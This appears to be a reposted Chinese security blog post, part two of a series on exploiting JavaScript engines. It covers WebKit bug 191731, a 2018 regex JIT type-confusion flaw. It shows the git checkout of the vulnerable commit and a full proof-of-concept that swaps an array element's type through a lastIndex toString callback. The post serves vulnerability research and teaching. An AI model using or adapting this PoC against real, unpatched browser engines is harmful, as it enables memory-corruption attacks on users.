 > 原文链接: https://www.anquanke.com//post/id/183805 


# JavaScript engine exploit（二）


                                阅读量   
                                **297440**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t0137da6f61560fcd52.png)](https://p0.ssl.qhimg.com/t0137da6f61560fcd52.png)



## 0x00 前言

这是2018年底的一个关于正则的bug，编号是191731。

关于这个Bug的描述和Diff：[About The Bug](https://bugs.webkit.org/show_bug.cgi?id=191731)、[Diff](https://github.com/WebKit/webkit/commit/7cf9d2911af9f255e0301ea16604c9fa4af340e2?diff=split#diff-fb5fbac6e9d7542468cfeed930e241c0L66)

切换到漏洞分支编译：

```
git checkout 3af5ce129e6636350a887d01237a65c2fce77823
```



## 0x01 POC

```
var victim_array = [1.1];
var reg = /abc/y;
var val = 5.2900040263529e-310

var funcToJIT = function() `{`
    'abc'.match(reg);
    victim_array[0] = val;
`}`

for (var i = 0; i &lt; 10000; ++i)`{`
    funcToJIT()
`}`

regexLastIndex = `{``}`;
regexLastIndex.toString = function() `{`
    victim_array[0] = `{``}`;
    return "0";
`}`;
reg.lastIndex = regexLastIndex;
funcToJIT()
print(victim_array[0])
```
